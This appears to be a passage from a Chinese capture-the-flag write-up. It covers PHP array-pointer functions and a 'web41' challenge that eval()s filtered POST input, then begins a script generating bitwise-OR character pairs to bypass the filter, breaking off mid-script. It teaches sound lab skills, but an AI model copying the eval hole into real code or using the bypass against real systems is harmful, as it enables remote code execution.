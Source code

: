 >
> show_source():查看源码
>
> pos() 函数返回数组中的当前元素的值。该函数是current()函数的别名。
>
> 每个数组中都有一个内部的指针指向它的"当前"元素，初始指向插入到数组中的第一个元素。
>
> 提示：该函数不会移动数组内部指针。
>
> 相关的方法：
>
> current()返回数组中的当前元素的值。
>
> end()将内部指针指向数组中的最后一个元素，并输出。
>
> next()将内部指针指向数组中的下一个元素，并输出。
>
> prev()将内部指针指向数组中的上一个元素，并输出。
>
> reset()将内部指针指向数组中的第一个元素，并输出。
>
> each()返回当前元素的键名和键值，并将内部指针向前移动。

## web41（或运算绕过）

```php
<?php
if(isset($_POST['c'])){
    $c = $_POST['c'];
if(!preg_match('/[0-9]|[a-z]|\^|\+|\~|\$|\[|\]|\{|\}|\&|\-/i', $c)){
        eval("echo($c);");
    }
}else{
    highlight_file(__FILE__);
}

这个题过滤了$、+、-、^、~使得异或自增和取反构造字符都无法使用，同时过滤了字母和数字。但是特意留了个或运算符|。
我们可以尝试从ascii为0-255的字符中，找到或运算能得到我们可用的字符的字符。
或运算绕过
```

rce_or.php

```php
<?php
$myfile = fopen("rce_or.txt", "w");
$contents="";
for ($i=0; $i < 256; $i++) { 
	for ($j=0; $j <256 ; $j++) { 

		if($i<16){
			$hex_i='0'.dechex($i);
		}
		else{
			$hex_i=dechex($i);
		}
		if($j<16){
			$hex_j='0'.dechex($j);
		}
		else{
			$hex_j=dechex($j);
		}
		$preg = '/[0-9]|[a-z]|\^|\+|\~|\$|\[|\]|\{|\}|\&|\-/i'; # 替换这里的正则匹配
		if(preg_match($preg , hex2bin($hex_i))||preg_match($preg , hex2bin($hex_j))){
					echo "";
```